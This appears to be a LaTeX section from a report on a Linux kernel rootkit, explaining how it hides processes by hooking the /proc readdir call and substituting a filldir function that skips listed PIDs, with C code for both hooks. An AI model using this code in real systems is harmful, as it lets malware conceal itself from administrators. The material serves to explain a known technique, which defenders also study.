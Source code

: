 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
\label{sec:process-hiding}

Currently, we hook the \texttt{readdir} call of the \texttt{proc}-filesystem to hide the specified tasks (just as in \autoref{filehiding}). Moreover, we also employ a custom \texttt{filldir} function\footnote{\texttt{filldir\_t} is an own type in the Linux kernel for a function used to fill the contents of \texttt{readdir}.}, which actually hides the specified processes.

The hooked \texttt{readdir} function is quite simple:

\begin{verbatim}
int hooked_readdir(struct file *filep, void *dirent, filldir_t filldir){
    original_proc_fillfir = filldir;
    return proc_original_readdir(filep, dirent, hooked_proc_filldir);
}
\end{verbatim}

First, we remember the original \texttt{filldir} function so we can use it later. Afterwards, we call the \emph{original} \texttt{readdir} function, but we give our own \texttt{hooked\_proc\_filldir} as parameter to it. So, we ``just change parameters'' to the function.

It remains to show our hooked \texttt{filldir} function:

\begin{verbatim}
int hooked_proc_filldir (void *__buf, const char *name, int namelen, 
                         loff_t offset, u64 ino, unsigned d_type){
    char buf[512];
    struct proc_to_hide* cur;
    for(cur = processes_to_hide; cur != 0; cur = cur->next){
        sprintf(buf, "%d", cur->pid);
        if(strcmp(buf, name)==0){
            // If we come here, we hide the process.
            return 0;
        }
    }
    // If we come here, we just delegate everything to the original function.
    return original_proc_fillfir(__buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}

As you can see, these kind of functions accept quite a bunch of arguments. But we need only one of them: \texttt{name} -- it holds a PID (formatted as a array of \texttt{char}s). 

All the other parameters are possibly passed to the original \texttt{filldir} function.

The function does essentially the following: It traverses the list, where we store the process IDs of the processes we want to hide. If it finds that the current PID is to be hidden, it just returns 0, indicating that the current call did not produce any output. This causes the callee just to ignore the corresponding process. If no such PID is found, it just delegates the work to \texttt{original\_proc\_filldir}, which then acts just like there was no interception at all.
\end{document}
